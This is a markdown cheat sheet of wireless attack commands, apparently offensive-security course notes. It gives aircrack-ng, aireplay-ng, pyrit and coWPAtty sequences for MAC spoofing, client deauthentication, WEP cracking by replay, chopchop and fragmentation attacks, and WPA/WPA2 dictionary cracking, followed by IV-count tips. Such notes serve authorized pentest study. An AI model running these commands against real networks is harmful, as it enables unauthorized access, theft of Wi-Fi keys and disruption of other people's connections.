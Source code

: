 ```yaml
---
title: Wireless Attacks Cheat Sheet
tags:
  - OffSec
  - Wireless
date: 2020-06-29 07:42:00
---
```



## Getting Started

### MAC

```shell
root@bt:~# macchanger --show <interface name>
Current MAC: 00:f1:40:93:00:f5 (unknown)

#  Set the MAC XX:XX:XX:XX:XX:XX
macchanger --mac=XX:XX:XX:XX:XX:XX mon0
```

### Open the Monitor Mode

```shell
root@bt:~# airmon-ng check kill && ifconfig wlan1 down && iwconfig wlan1 mode monitor && ifconfig wlan1 up && airmon-ng start wlan1 3
root@bt:~# airmon-ng check kill && ifconfig mon0 down && iwconfig mon0 mode monitor && ifconfig mon0 up

iwconfig <interface name> mode monitor channel <channel number>
```

## Injection Test

#### Basic Injection Test

(Single Card)

```shell
root@bt:~# aireplay-ng -9 <interface name>
root@bt:~# aireplay-ng -9 mon0
```

#### Injection Test for Hidden or Specific SSID

```shell
root@bt:~# aireplay-ng -9 -e <ESSID> -a <AP MAC> <interface name>
root@bt:~# aireplay-ng -9 -e 'STAGE TEST' -a 08:57:00:64:2E:B0 mon0
```

#### Card-to-Cad (Attack) Injection Test

(Two Cards)

```shell
root@bt:~# aireplay-ng -9 -i <input interface> <interface name>
```

# Wired Equivalent Privacy (WEP)

## Open Authentication

### Cracking WEP with Connected Clients

```shell
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP Channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>
aireplay-ng -3 -b <AP MAC> -h <Your MAC> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
aircrack-ng <capture>
```

### Cracking WEP via a Client

```
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>
aireplay-ng -2 -b <AP MAC> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 <interface>
aircrack-ng -z <capture>
```

### Cracking Clientless WEP Networks

```shell
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>

# Run attack 4, the KoreK chopchop attack (or attack 5, the fragmentation attack):
aireplay-ng -4 -b <AP MAC> -h <Your MAC> <interface>
aireplay-ng -5 -b <AP MAC> -h <Your MAC> <interface> (Need Card Support)

packetforge-ng -0 -a <AP MAC> -h <Your MAC> -l <Source IP> -k <Dest IP> -y
<xor filename> -w <output filename>
# packetforge-ng -0 -a 08:57:00:64:2E:B0 -h 00:f1:40:93:00:f5 -l 192.168.1.113 -k 192.168.1.255 -y replay_dec-0705-020358.xor -w arp-korek

aireplay-ng -2 -r <packet filename> <interface>
aircrack-ng <capture>
```

## Shared Key Authentication

```shell
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>

aireplay-ng -1 0 -e <ESSID> -y <keystream file> -a <AP MAC> -h <Your MAC>
<interface>
# aireplay-ng -1 6000 -e 'STAGE TEST' -y wepshared-01-08-57-00-64-2E-B0.xor -a 08:57:00:64:2E:B0 -h 94:0c:6d:7c:ca:73 mon0

aireplay-ng -3 -b <AP MAC> -h <Your MAC> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
aircrack-ng <capture>
```

# WPA/WPA2

## Cracking WPA/WPA2 PSK with Aircrack-ng

```shell
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -0 1 -a<AP MAC> -c <Client MAC> <interface>
# dictionary mode
aircrack-ng -w <wordlist> <capture>

# Airolib-ng database
aircrack-ng -r <db name> <capture>
```

## Cracking WPA with JTR and Aircrack-ng

```shell
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
john --wordlist=<wordlist> --rules --stdout | aircrack-ng -e <ESSID> -w - <capture>
```

## Cracking WPA with coWPAtty

```shell
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>

genpmk -f <wordlist> -d <hashes filename> -s <ESSID>
genpmk -f /pentest/passwords/john/password.lst -d wifuhashes -s 'STAGE TEST WPA'

cowpatty -r <capture> -d <hashes filename> -2 -s <ESSID>
```

## Cracking WPA with Pyrit

```shell
airmon-ng start <interface> <AP channel>
pyrit -r <interface> -o <capture> stripLive
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>

# dictionary mode
pyrit -r <capture> -i <wordlist> -b <AP MAC> attack_passthrough

# database mode
pyrit -i <wordlist> import_passwords
pyrit -e <ESSID> create_essid
pyrit batch
pyrit -r <capture> -b <AP MAC> attack_db
```

## Airolib-ng

```shell
echo wifu > essid.txt
airolib-ng <db name> --import essid <essid filename>
airolib-ng <db name> --import passwd <wordlist>
airolib-ng <db name> --clean all
airolib-ng <db name> --stats
airolib-ng <db name> --batch
airolib-ng <db name> --verify all
aircrack-ng -r <db name> <capture>
```

# General Approach to Cracking WEP Keys

- Typically, you need 250000 or more unique IVs for 64-bit keys and 1.5 million or more for 128-bit keys.

- Generally speaking, don’t try to crack the WEP key until you have at least 100000 IVs.

- Start by trying 64-bit keys with 'aircrack-ng -n 64 <capture filename>'. If 64-bit WEP is used, it can usually be cracked in less than 5 minutes and usually less than 60 seconds with relatively few IVs. If the 64-bit key is not found in 5 minutes, restart Aircrack in generic mode with 'aircrack-ng <capture filename>' and then, at each 100000 IVs mark, retry 'aircrack-ng -n 64 <capture filename>' for 5 minutes.

- Once you hit 600000 IVs, switch to testing 128-bit keys.

- Once you hit 2 million IVs, try changing the fudge factor to ‘-f 4’ and run it for at least 30 minutes and up to one hour. Retry, increasing the fudge factor by adding 4 to it each time. You should also try increasing the fudge factor whenever Aircrack-ng stops after having tried all possible keys.

- All the while, keep collecting data. Remember the golden rule: “the more IVs, the better”. Also, check the next section on how to determine which options to use as these can significantly speed up cracking the WEP key. For example, if the key is entirely numeric, then it can take as few as 50000 IVs to crack a 64-bit key with the ‘-t’ parameter versus 200000 IVs without it. So if you have a hunch about the WEP key, it is worth trying a few variations.

- The number of unique IVs that you need varies drastically depending on a number of factors. You can consider the following as a rough guideline:
    ○ FMS/KoreK 64-bit—250,000 Unique IVs
    ○ FMS/KoreK 128-bit—1,500,000 Unique IVs
    ○ PTW 64-bit—20,000 packets
    ○ PTW 128-bit—40,000-85,000 packets

    

|        Encryption         |    Password    |  Ivs  |
| :-----------------------: | :------------: | :---: |
| WEP - Open Authentication | AA:BB:CC:DD:EE | 16875 |
|                           |                |       |
|                           |                |       |


